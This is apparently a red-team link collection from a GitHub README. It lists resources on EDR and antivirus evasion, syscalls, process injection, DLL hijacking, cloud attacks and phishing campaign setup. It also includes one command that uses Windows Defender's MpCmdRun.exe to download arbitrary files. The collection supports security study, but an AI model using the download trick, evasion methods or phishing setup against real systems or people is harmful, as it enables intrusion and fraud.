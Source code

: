 # RedBlueNotes

![red](https://user-images.githubusercontent.com/9626439/99510946-ef79e900-2987-11eb-9aa8-1443670a8bb3.jpg)

Personal notes and collection of useful links. 

Collection in early stage - more details will be added (URL/Description).

## Approach
* [assume breach?](https://twitter.com/reybango/status/1308608385298898944)

## Lab
* [designing-the-adversary-simulation-lab/](https://www.mdsec.co.uk/2020/04/designing-the-adversary-simulation-lab/)

## .NET ETW 
* https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/ (bypass by _xpn_)
* https://github.com/zacbrown/PowerKrabsEtw
* https://github.com/zacbrown/hiddentreasure-etw-demo

## Windows syscalls
* https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/
* https://github.com/jthuraisamy/SysWhispers
* https://jhalon.github.io/utilizing-syscalls-in-csharp-1/
* https://jhalon.github.io/utilizing-syscalls-in-csharp-2/
* https://www.solomonsklash.io/syscalls-for-shellcode-injection.html
* https://github.com/frkngksl/Celeborn
* https://github.com/m0rv4i/Syscalls-Extractor

## (API) (un)hook
* [Defeat Bitdefender total security using windows API unhooking to perform process injection](https://shells.systems/defeat-bitdefender-total-security-using-windows-api-unhooking-to-perform-process-injection/)
* [Part 1: Fs Minifilter Hooking](https://aviadshamriz.medium.com/part-1-fs-minifilter-hooking-7e743b042a9d)
* [Windows API Hooking](https://rcvalle.com/blog/2020/09/16/rust-lang-exploit-mitigations/)

## EDR telemetry
* [TelemetrySourcerer](https://github.com/jthuraisamy/TelemetrySourcerer)

## Build offensive tools 
* [OffensivePipeline](https://github.com/Aetsu/OffensivePipeline)

## Infrastrcuture
* [Multi-Stage Offensive Operations with Mythic](https://blog.kyleavery.com/posts/multi-stage-mythic/)

## Evasion
* [Blue team - EDR evolution](https://www.optiv.com/insights/source-zero/blog/endpoint-detection-and-response-how-hackers-have-evolved)
* [Nice webinar - understanding-modern-edr-tools](https://www.netspi.com/webinars/understanding-modern-edr-tools-thank-you/)
* [Lets Create An EDR… And Bypass It! Part 1](https://ethicalchaos.dev/2020/05/27/lets-create-an-edr-and-bypass-it-part-1/)
* [Lets Create An EDR… And Bypass It! Part 2](https://ethicalchaos.dev/2020/06/14/lets-create-an-edr-and-bypass-it-part-2/)
* [A Guide to Reversing and Evading EDRs: Part 1 Introduction](http://jackson-t.ca/edr-reversing-evading-01.html)
* [A Guide to Reversing and Evading EDRs: Part 2 Sensor reconnaisssance](http://jackson-t.ca/edr-reversing-evading-02.html)
* [A Guide to Reversing and Evading EDRs: Part 3 Diverting EDR telemetry to private infrastracture](http://jackson-t.ca/edr-reversing-evading-03.html)
* [Alaris](https://github.com/cribdragg3r/Alaris)
* [ScareCrow](https://github.com/optiv/ScareCrow)
* [Self deleting exe](https://www.catch22.net/tuts/win32/self-deleting-executables#)
* [Defeating Antivirus Real-time Protection From The Inside](https://breakdev.org/defeating-antivirus-real-time-protection-from-the-inside/)
* [Duping AV with handles](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)
* [Adventures in Dynamic Evasion](https://posts.specterops.io/adventures-in-dynamic-evasion-1fe0bac57aa)
  * [Companion PoC for the "Adventures in Dynamic Evasion" blog post](https://github.com/matterpreter/SHAPESHIFTER) 
* [Click your shortcut and… you got pwned.](https://redteamer.tips/click-your-shortcut-and-you-got-pwned/) 
* [Evade EDR with Shellcode Injection and gain persistence using Registry Run Keys](https://infosecwriteups.com/evade-avs-edr-with-shellcode-injection-159dde4dba1a)
* [Understanding and bypassing AMSI](https://x64sec.sh/understanding-and-bypassing-amsi/)
* [Masking Malicious Memory Artifacts – Part III: Bypassing Defensive Scanners](https://www.forrest-orr.net/post/masking-malicious-memory-artifacts-part-iii-bypassing-defensive-scanners)
* [smaller-c-payloads-on-windows](https://www.solomonsklash.io/smaller-c-payloads-on-windows.html)
* [in-memory-shellcode-decoding-to-evade-avs](https://shells.systems/in-memory-shellcode-decoding-to-evade-avs/)
* [MDSec Bypassing Image Load Kernel Callbacks](https://www.mdsec.co.uk/2021/06/bypassing-image-load-kernel-callbacks/)

## Cloud
* [XPN - Azure AD Connect for Red Teamers](https://blog.xpnsec.com/azuread-connect-for-redteam/)
* [Making Clouds Rain :: Remote Code Execution in Microsoft Office 365](https://srcincite.io/blog/2021/01/12/making-clouds-rain-rce-in-office-365.html)
* [List of Azure CDN IP Addresses](https://github.com/Gelob/azure-cdn-ips)
* [AWS IAM explained for Red and Blue teams](https://infosecwriteups.com/aws-iam-explained-for-red-and-blue-teams-2dda8b20fbf7)
* [Exploiting AWS IAM permissions for total cloud compromise: a real world example (part 1/2)](https://infosecwriteups.com/exploiting-fine-grained-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-5a2f3de4be08)
* [Exploiting fine-grained AWS IAM permissions for total cloud compromise: a real world example (part 2/2)](https://infosecwriteups.com/exploiting-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-2-2-f27e4b57454e)

## Lateral movement
* [lateral-movement-using-dcom-objects](https://www.scorpiones.io/articles/lateral-movement-using-dcom-objects)

# DLLs
* https://itm4n.github.io/windows-dll-hijacking-clarified/
* https://github.com/monoxgas/Koppeling (DLL hijacking)
* https://redteaming.co.uk/2020/07/12/dll-proxy-loading-your-favorite-c-implant/ (DLL proxy loading)
* [Full DLL Unhooking with C++](https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++)

## Injections
* https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/
* https://sevrosecurity.com/2020/04/13/process-injection-part-2-queueuserapc/

## Situational Awareness
* https://ired.team/offensive-security/enumeration-and-discovery/windows-event-ids-for-situational-awareness

## Phishing
* [Post exploitation creds](https://medium.com/@shantanukhande/post-exploitation-creds-5a8de8676792)
* [Check the phishing server / landing page response](https://httpstatus.io/)
* [Security check of your URL ](https://sitecheck.sucuri.net/)
* [Check your phishing e-mail quality](https://www.mail-tester.com/)
* [Recipe for a successful phishing campaign (part 1/2)](https://medium.com/bugbountywriteup/recipe-for-a-successful-phishing-campaign-part-1-2-dc23d927ec55)
  * setup SPF, DKIM, PTR, MX and general approach
* [Recipe for a successful phishing campaign (part 2/2)](https://medium.com/bugbountywriteup/recipe-for-a-successful-phishing-campaign-part-2-2-68552806dcba)
  * setup DNS, gophishg, general tips for better campaign
* [Building resilient phishing campaign infrastructure](https://godlikesecurity.com/index.php/tag/red-team/)
* [email spoofing](https://github.com/chenjj/espoofer)
* [docker,terradorm,ansible automation](https://github.com/ralphte/build_a_phish)
* [Internal phishing](https://github.com/Yaxser/SharpPhish)
* [Password protected Excel phishing](https://s3cur3th1ssh1t.github.io/Phish-password-protected-Excel-files/)

### Phishing platforms
* [sendgrid](http://sendgrid.com/)
  * useful service but honestly, You need Pro pain plan to be lucky not to be on a spamlist 
* [mailgun](https://app.mailgun.com/)
  * haven't had any problem
* [Amazon AWS SES](https://aws.amazon.com/ses/)

## Download and execute

* [Download via Defender](https://twitter.com/mohammadaskar2/status/1301263551638761477)
![Defender download](https://pbs.twimg.com/media/Eg8ESSWWAAACTGo?format=jpg&name=large)
* (You can use C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path> to download your file using Windows defender itself.)
  
## Reports and management
* [Manage Red Team domain](https://posts.specterops.io/being-a-good-domain-shepherd-part-2-5e8597c3fe63)
* [Domain Shepherd](https://github.com/GhostManager/Shepherd)

## SSH 
* If you are always looking through your ssh conf files for a specific host entry, this simple bash function might be just what you need. 

```
function getssh() {
  awk "/$1/,/^$/" < ~/.ssh/include/*
}
```

![SSH configs](https://pbs.twimg.com/media/EgW_CXzXsAEsh0r?format=png&name=small)

## Tools
* [Weaponry](https://github.com/jeffjbowie/Weaponry)
  * A collection of offensive code used for red team engagements.                                    
* [Mr-Un1k0d3r awesome repo](https://github.com/Mr-Un1k0d3r)  
* [PowerShellArmoury](https://github.com/cfalta/PowerShellArmoury) 
* [RedTeamTools](https://github.com/lengjibo/RedTeamTools)     
* [inceptor](https://github.com/klezVirus/inceptor)   
* [mgeeky awesome repo](https://github.com/mgeeky/Penetration-Testing-Tools/tree/master/red-teaming)                                    

## HW
* [Making the Perfect Red Team Dropbox (Part 1)](https://sensepost.com/blog/2020/making-the-perfect-red-team-dropbox-part-1/)
* [Making the Perfect Red Team Dropbox (Part 2)](https://sensepost.com/blog/2020/making-the-perfect-red-team-dropbox-part-2/)
